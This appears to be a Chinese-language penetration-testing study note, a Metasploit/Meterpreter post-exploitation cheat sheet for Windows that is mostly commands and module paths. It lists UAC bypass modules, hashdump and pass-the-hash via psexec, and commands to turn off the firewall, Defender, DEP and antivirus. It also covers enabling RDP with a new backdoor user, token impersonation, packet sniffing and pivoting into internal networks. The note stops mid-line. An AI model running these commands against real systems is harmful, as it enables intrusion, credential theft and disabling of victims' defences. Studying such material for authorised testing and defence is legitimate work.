 # 概要

1. 权限提升：权限提升的集中方式
2. 信息收集：服务器信息、Hash、防火墙杀毒软件、账号密码
3. 内网渗透：端口转发、代理跳板
4. 后门植入：永久后门维持权限

# 权限提升

1. 提高程序运行级别
- Exploit/windows/local/ask

上面模块执行攻击以后，在靶机会弹出一个UAC对话框，当且仅当靶机管理员点击是（授权执行）以后才能收到提权的反弹shell，也就是说需要和管理员交互。

2. UAC绕过
- Exploit/windows/local/bypassuac
- Exploit/windows/local/bypassuac_injection
- Exploit/windows/local/bypassuac_vbs

上面模块不需要与靶机管理员交互，直接绕过UAC（执行成功以后需要再执行getsystem命令）

3. 利用本地提权漏洞进行提权

根据具体的系统环境，查找对应的本地系统提升漏洞

# 信息收集

信息收集相关
- 获取目标机器的分区情况：post/windows/gather/forensics/enum_drives
- 判断是否为虚拟机：post/windows/gather/checkvm
- 开启哪些服务：post/windows/gather/enum_services
- 安装了哪些应用：post/windows/gather/enum_applocations
- 查看共享：post/windows/gather/enum_shares
- 获取主机最近的系统操作：post/windows/gather/dumplinks
- 查看补丁：post/windows/gather.enum_applications
- scraper脚本
- winenum脚本

 
# 数据包捕获

抓包与解包
> 抓包

- 加载sniffer:load sniffer
- 查看网卡信息：sniffer_interface
- 开启监听：sniffer_start 1
- 导出数据包:sniffer_dump 1 1.cap

> 解包

- auxiliary/sniffer/psnuffle

# PassingTheHash
Hash 基础知识
windows系统下的hash密码格式为：

> 用户名称：RID：LM-HASH值：NT-HASH值


获取Hash值

- Hashdump
- Run post/windows/gather/smart_hashdump
- 检查权限和系统类型
- 检查是否是域控制器
- 从注册表读取hash、注入LSASS进程
- 如果是08server并具有管理员权限，直接getsystem尝试提权
- 如果是win7且UAC关闭并具有管理员权限，从注册表读取
- 03/xp直接getsystem,从注册表获取hash

Hash传递(直接用hash密文登录，前提是关闭了UAC)
- Pasexec: exploit/windows/smb/psexec


# 关闭防火墙及杀毒软件
> 关闭防火墙
- Netsh advfirewall set allprofiles state off (管理员及以上权限)

> 关闭Denfender
- Net stop windefend

> 关闭DEP
- Bcdedit.exe /set{current} nx AlwaysOff

> 关闭杀毒软件
- Run killav
- Run post/windwos/manage/killava

# 远程桌面

>开启远程桌面
- run post/windows/manage/enable_rdp
- run getgui -e

> 开启远程桌面并添加一个新用户bean:
- run getgui -u bean -p ean

>开启远程桌面并绑定在8888端口：
- run getgui -e -f 8888

>截图
- load espia
- screengrab

# 令牌假冒

什么是令牌假冒？
> 假冒令牌可以假冒一个网络中的另一个用户进行各类操作。 所谓的令牌：例如当一个用户登录系统，则它会被赋予一个访问令牌作为认证信息。 所以当一个攻击者需要域管理员的操作权限时候，需要通过假冒令牌方式进行入侵攻击。

> windows安全相关概念
- session
- windows station
- Desktop
- Login Session:不同账号登录产生不同的登录Session,代表不同的账号权限


>Tokens简介
- 与进程相关联，进程创建时根据LoginSession分配对应Token，含有该进程用户账号、组信息、权限信息等
- 用户每次登录，产生LoginSession分配对应Token
- 访问资源时提交Token进行身份验证，类似于web cookie
- Delegate Token：交互登录会话
- Impersonate Token：非交互登录会话



> Incognito
- 独立软件，被继承到msf的meterpreter中
- 不用获取账号密码窃取token将自己伪装成合法用户
- 适用于域环境下提权渗透多操作系统


# 跳板攻击
> Pivoting
- 利用已经被入侵的主机作为跳板来攻击网络中的其他系统
- 访问由于路由问题而不能直接访问的内网系统

> 自动路由
- run autoroute -s 192.168.102.0/24
- run post/multi/manage/autoroute
- 利用win7攻击内网服务器
- 扫描内网网络
1. run post/windows/gather/arp_scanner rhosts=192.168.102.0/24   (扫描该网段活跃主机)
2. use auxiliary/scanner/portscan/tcp   （扫描目标内网主机开放的端口）





看到第11